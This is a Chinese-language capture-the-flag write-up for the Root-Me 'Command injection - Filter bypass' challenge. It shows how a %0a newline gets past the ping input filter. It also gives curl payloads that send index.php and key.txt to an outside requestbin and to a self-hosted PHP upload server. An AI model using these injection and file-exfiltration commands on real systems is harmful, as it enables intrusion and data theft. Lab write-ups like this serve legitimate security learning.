 Root-Me [Command injection - Filter bypass](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)
===

提供與 [03] 一樣的 ping 功能，但該題目不會顯示結果，指會告知語法錯誤，Ping 不 Ping 得到目標。

## 解題關鍵
1. CLI
2. curl
3. php

## 提示訊息
```
Find a vulnerability in this service and exploit it. Some protections were added.

The flag is on the index.php file.
```

## 解題方法
這題想了一些方法，發現指要加上常用的 `&`、`|`、`'` 都會回報 `Syntax Error`，最後發現使用 `%0a` 似乎會執行後方的指令，首先 `%0a` 是換行字元，透過換行的方式後續指令依然被執行，代表漏洞在這裡。  

經由簡單測試 `127.0.0.1 %0a curl https://requestbin.fullcontact.com/11p6b1m1?test`，發現確認有送訊息到 `requesbin` 上。  

![](img/01.png)  

原先構想的 Payload 如下（一），也可以兩行合併成一行（二）:

```BASH
127.0.0.1 %0a
data%3d$(<index.php) %0a
curl -X GET -G --data-urlencode "msg%3d$data" "https://requestbin.fullcontact.com/11p6b1m1"
```

```BASH
127.0.0.1 %0a
curl -X GET -G --data-urlencode "msg%3d$(<key.txt)" "https://requestbin.fullcontact.com/11p6b1m1"
```

結果嘗試了幾次之後，發現 `$`、`<` 都被過濾掉了...，尷尬到爆炸。  

最後想破頭，curl 有沒有辦法直接把檔案遞送出來，找到了 `-F` 的方法，但這部分還需要外部的伺服器支援，這邊申請免費的網路空間 [lionfree](https://lionfree.net)，申請完畢之後，在上面建立一個具有上傳功能的 php，原始碼如下。

```PHP
<?php
$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
    echo "The file ". basename( $_FILES["fileToUpload"]["name"]). " has been uploaded.";
} else {
    echo "Sorry, there was an error uploading your file.";
}
?>
```

接著改照一下原本的 Payload，兩行就搞定了。

```
ip=127.0.0.1 %0a
curl -v -X POST -F "fileToUpload=@./index.php" "http://mks.lionfree.net/upload.php"
```

送出後靜候佳音，解決該題。  

![](img/02.png)  

![](img/03.png)  


## Reference
https://stackoverflow.com/questions/4181703/how-to-concatenate-string-variables-in-bash  

https://blog.longwin.com.tw/2017/12/bash-shell-curl-send-urlencode-args-2017/  

https://blog.techbridge.cc/2019/02/01/linux-curl-command-tutorial/  

https://www.w3schools.com/php7/php7_file_upload.asp  

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
